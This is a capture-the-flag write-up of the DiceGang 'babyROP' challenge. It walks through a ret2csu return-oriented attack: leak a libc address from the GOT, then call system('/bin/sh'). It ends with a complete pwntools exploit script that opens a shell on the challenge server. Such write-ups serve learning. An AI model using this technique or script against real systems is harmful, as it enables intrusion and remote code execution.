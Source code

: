 ```yaml
---
layout: post
author: tourpran
title: babyROP | DiceGang CTF
categories: writeup
tags: [csu, ret2csu, dicegang]
---
```


## Challenge Description
![](/assets/images/challdesbabyrop.png)

### Solution:

* Checkout the mitigations of the binary
* Try to find gadgets since this is a ROP challenge. If you dont know much about ROP checkout [ROPemporium](https://ropemporium.com/).
* Craft the payload to get flag from server.

#### Mitigations:
![](/assets/images/mitigationdice.png)
* We can't excecute shellcode (NX Enabled)
* No Canary found - no need for brute force or leaks
* PIE disabled - the address of the binary wont be randomised

#### Finding Gadgets:

Install ROPgadget to find all the gadgets in the binary.
```bash
ROPgadget --binary babyrop
```
My first thought was to ``write`` the address pointed by the got of ``write``. The idea was to leak the address of write function. Since write has already been called by the program the GOT of write will be populated and the got will point to the libc address of write. The following gadgets are needed. 
```asm
pop rdi
pop rsi 
pop rdx
```
I did not have the pop rdx register which makes the challenge a bit more intresting. So we need to find a way to set the value of RDX, RSI, RDI. 
```asm
rsi - point to the buffer [write@got]
rdi - file discriptor = 1
rdx - size of the buffer = >8
```

Since ropgadget did not give me the gadget I went to look for more gadgets in the `__libc_csu_init`. There I could find all the gadgets I wanted. 

#### Crafting Exploit: 

These are the important gadgets I want.

![](/assets/images/gadgetsdice.png)

#### Idea 

First overflow the buffer with garbage and then make return jump to csu. Things to note.

```asm
0x00000000004011b0 <+64>:	mov    rdx,r14
0x00000000004011b3 <+67>:	mov    rsi,r13
0x00000000004011b6 <+70>:	mov    edi,r12d

0x00000000004011ca <+90>:	pop    rbx
0x00000000004011cb <+91>:	pop    rbp
0x00000000004011cc <+92>:	pop    r12
0x00000000004011ce <+94>:	pop    r13
0x00000000004011d0 <+96>:	pop    r14
0x00000000004011d2 <+98>:	pop    r15
0x00000000004011d4 <+100>:	ret 
```

Now we can control the RDI, RSI, RDX because we can control the r14, r13, r12 registers. Intresting area was the call to `QWORD PTR [r15+rbx*8]` inbetween these gadgets. So we decided to make this `QWORD PTR [r15+rbx*8]` as the write function. In order to do this well set r15 as the address to write@got and rbx as 0. 

```asm
0x00000000004011b9 <+73>:	call   QWORD PTR [r15+rbx*8]
0x00000000004011bd <+77>:	add    rbx,0x1
0x00000000004011c1 <+81>:	cmp    rbp,rbx
0x00000000004011c4 <+84>:	jne    0x4011b0 <__libc_csu_init+64>
```
Hmmm :(. Seems like there is a compare statement that'll make us jump back to the csu+64 (which is somewhere in the middle of csu). Now lets make rbp as 1 so we dont take the jump.

```python
buf = b"a"*72
buf += p64(0x00000000004011ca) #rbx rbp r12 r13 r14 r15
buf += p64(0)+p64(1)+p64(1)+p64(elf.got['write'])+p64(8)+p64(elf.got['write'])
buf += p64(0x00000000004011b0)
buf += p64(0)*7
buf += p64(elf.sym['main'])
```

Exploit for leaking libc write address looks something like this. :) Now lets just recv the leak and see what libc they are using. To find out their libc go to [libc.blukat.me](https://libc.blukat.me/)

![](/assets/images/blukatdice.png)

Now its basic math, since all the address in the libc will be at the same offset from one another. Once you get the leak just find address of /bin/sh and system then just call system with /bin/sh as argument. Pretty intresting challenge and fun to solve :).

Anyway here is the exploit script for this challenge.

```python
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './babyrop'

elf = ELF("./babyrop")

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p = remote("dicec.tf", 31924)

# shellcode = asm(shellcraft.sh())

'''
0x00000000004011d3 : pop rdi ; ret

write syscall 
rdi = 1
rsi = pointer to puffer (pointer to write function)
rdx = size
'''

p.recvuntil(": ")

buf = b"a"*72
buf += p64(0x00000000004011ca) #rbx rbp r12 r13 r14 r15
buf += p64(0)+p64(1)+p64(1)+p64(elf.got['write'])+p64(8)+p64(elf.got['write'])
buf += p64(0x00000000004011b0) 
buf += p64(0)*7
buf += p64(elf.sym['main'])
p.sendline(buf)

# log.info("write leak: {}".format((hex(u64(p.recv(8))))))

leak = int(hex(u64(p.recv(8))), 16)
log.info("Write leak: {}".format(hex(leak)))

sys = leak-0xbbdc0

binsh = leak+0xa63da

buf = b"a"*72
buf += p64(0x40116b) #ret
buf += p64(0x00000000004011d3) #pop rdi 
buf += p64(binsh)
buf += p64(sys)

p.sendline(buf)

p.interactive()


```